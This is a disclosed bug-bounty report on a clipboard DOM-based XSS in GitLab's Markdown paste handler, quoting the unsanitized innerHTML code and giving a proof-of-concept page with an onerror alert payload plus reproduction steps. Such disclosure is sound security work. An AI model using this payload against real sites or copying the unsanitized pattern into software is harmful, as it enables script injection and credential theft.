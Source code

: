 # Clipboard DOM-based XSS

## Report Details
- **Report ID**: 1196958
- **URL**: https://hackerone.com/reports/1196958
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-05-14T03:39:36.225Z
- **Disclosed**: 2021-08-19T14:15:13.153Z

## Reporter
- **Username**: vovohelo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

A clipboard DOM-based XSS exists on several Markdown text fields. 

### Technical details

The *app/assets/javascripts/behaviors/markdown/copy_as_gfm.js* file is used to get and set GFM (GitHub Flavored Markdown) data on the clipboard on different parts of the GitLab application. If a user copies data from a malicious website and copies it in one of the text fields in which the **pasteGFM** function is used, the attacker can execute arbitrary JavaScript code under the user's credentials. The vulnerability exists because the **gfmHtml** variable value is assigned without sanitization directly from the clipboard and later used to set the **innerHTML** property of a dynamically created *div* element. The following code snippet contains the vulnerable code with additional comments for better explaining the issue.

```js
  static pasteGFM(e) {
    const { clipboardData } = e.originalEvent;
    if (!clipboardData) return;

    const text = clipboardData.getData('text/plain');
    const gfm = clipboardData.getData('text/x-gfm');
    const gfmHtml = clipboardData.getData('text/x-gfm-html'); /* <-- Data is copied from the clipboard*/
    if (!gfm && !gfmHtml) return;

    e.preventDefault();

    // We have the original selection already converted to gfm
    if (gfm) {
      CopyAsGFM.insertPastedText(e.target, text, gfm);
    } else {
      // Due to the async copy call we are not able to produce gfm so we transform the cached HTML
      const div = document.createElement('div'); /* <-- Div element is created*/
      div.innerHTML = gfmHtml; /* <-- innerHTML is set */
      CopyAsGFM.nodeToGFM(div)
        .then((transformedGfm) => {
          CopyAsGFM.insertPastedText(e.target, text, transformedGfm);
        })
        .catch(() => {});
    }
  }
```

### Steps to reproduce
On a testing machine, perform the following steps:

1. Install the Docker container engine
1. Create an HTML file like the following:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clipboard-XSS</title>
</head>
<body>
    <h3>Try out our new clipboard plugin</h3>
    <p>Copy <strong>here</strong>, paste it on the editor and see what happens!</p>
    <script>
        document.oncopy = event => {
            event.preventDefault();
            event.clipboardData.setData('text/x-gfm-html', 'XSS<img/src/onerror=alert(1)>');
            console.log("updated clipboard");
        }
    </script>
</body>
</html>
```
2. Spin a new GitLab container with the following commands:
```bash
export GITLAB_HOME=/srv/gitlab
sudo docker run --detach   --hostname gitlab.example.com   --publish 4443:443 --publish 8080:80 --publish 2222:22   --name gitlab   --restart always   --volume $GITLAB_HOME/config:/etc/gitlab   --volume $GITLAB_HOME/logs:/var/log/gitlab   --volume $GITLAB_HOME/data:/var/opt/gitlab   gitlab/gitlab-ce:latest
```
3. Using a web browser, navigate to the HTML file created in step 1
4. Select the word **here** as instructed and copy it to the clipboard
5. Navigate to http://localhost:8080/ and follow the instructions required to set up the password for the root user
6. Using the previously set password, log in as the root user
7. On the projects list, click on the **GitLab Instance / Monitoring** project
8. On the left pane, click on **Issues**
9. Click on the **New issue** button
10. Paste the contents from the clipboard on the Description textarea
11. Check an alert box is displayed

### Impact

This is a standard XSS vulnerability. An attacker may force users to perform any activities available through the application's Javascript API or use this for credential harvesting, etc.

### Examples

The following PoC video demonstrates the attack
{F1300761}


### What is the current *bug* behavior?

Pasting content triggers arbitrary JavaScript code execution when the **text/x-gfm-html** MIME type is used.

### What is the expected *correct* behavior?

Pasting content should not trigger JavaScript code execution.

### Relevant logs and/or screenshots

(Paste any relevant logs - please use code blocks (```) to format console output,
logs, and code as it's very hard to read otherwise.)

### Output of checks

This bug exists in https://gitlab.com/ but is currently unexploitable due to CSP.

#### Results of GitLab environment info

```
System information
System:		
Current User:	git
Using RVM:	no
Ruby Version:	2.7.2p137
Gem Version:	3.1.4
Bundler Version:2.1.4
Rake Version:	13.0.3
Redis Version:	6.0.12
Git Version:	2.31.1
Sidekiq Version:5.2.9
Go Version:	unknown

GitLab information
Version:	13.11.3
Revision:	b321336e443
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	12.6
URL:		http://gitlab.example.com
HTTP Clone URL:	http://gitlab.example.com/some-group/some-project.git
SSH Clone URL:	git@gitlab.example.com:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	13.17.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

This is a standard XSS vulnerability. An attacker may force users to perform any activities available through the application's Javascript API or use this for credential harvesting, etc.

## Attachments
- GitLab-Issues-Clipboard-XSS-2021-05-13_21-58.mp4
